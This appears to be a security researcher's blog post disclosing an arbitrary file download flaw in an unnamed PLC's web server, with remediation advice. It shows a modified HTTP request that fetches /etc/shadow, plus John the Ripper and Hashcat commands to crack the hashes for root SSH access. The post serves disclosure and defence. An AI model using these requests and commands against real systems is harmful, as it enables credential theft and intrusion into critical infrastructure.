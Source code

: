```yaml
---
layout: single
title: PLC Web Server Arbitrary File Download
date: 2023-2-26
classes: wide
header:
  teaser: 
tags:
  - CVE
  - Web
---
```


Introduction
---
In this post I'll go over a simple arbitrary file download vulnerability I found on the webserver of a commonly used PLC. 
To avoid disclosing the vulnerability to the public before a CVE has been formally given, I won't give specific details of the brand, model, and software this exploit applies to. 

This can be leveraged to gain root access on the underlying OS and implant backdoors, further traverse through the network, interrupt the normal operation of critical infrastructure, etc. 


The basic flow of the exploiting the vuln goes as follows:

1. Login to the web server with credentials for the admin user on the PLC.
2. Find/enable OpenVPN file download and upload.
3. Intercept the download.php request and replace the openvpn file it's requesting with any arbitrary file
4. Profit?

Exploitation
---
Intercepting the request to download the OpenVPN config and  looking further we can see that the path to the file we're downloading is communicated to us. We can attempt to change the path to a file that we would like to download instead. 
```
GET /XXX/php/file_transfer/download.php?download=/tmp/vpncfg-out/openvpn.conf&csrf=yourCSRFtoken HTTP/1.1
Host: 192.168.1.87
Cookie: REDACTED
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: iframe
Referer: https://192.168.1.87/XXX/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

To:
`GET /XXX/php/file_transfer/download.php?download=/etc/shadow&csrf=yourCSRFtoken HTTP/1.1`

We can leverage this to download the /etc/shadow and /etc/password file, unshadow them, then crack the passwords to login as root via SSH and/or reuse the credentials somewhere else in the network.

Bonus Points
---
#### Using John The Ripper:
```
unshadow passwd shadow
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

#### Using Hashcat:

With hashcat we don't have to unshadow the files to match the users to the the hashes like John the ripper. 
Feed Hashcat the shadow file with -m specified for  `1800 | sha512crypt $6$, SHA512 (Unix) | Operating System`
```
hashcat -m 1800 -a 0 shadow.txt /usr/share/wordlists/rockyou1.txt
```


Remediation
---
The vulnerable code can be found in the download.php file. 
```
if (isset($_GET['download'])) {
    $downloadPath = $_GET['download'];
```

What could be done to make this more secure is:
1. Check if the file is allowed to be accessed before downloading. Whitelisting acceptable file paths for example.
2. Remove the ability for users to modify the path of the file downloaded.
3. Make sure that the web server user has the least amount of privilege necessary to accomplish the task.

Conclusion
---
I will come out with a PoC script to automate exploitation of the vuln along with more details when the vuln is officially allowed to be disclosed. With proper protections put in place this vuln shouldn't even be possible to execute anyway. 
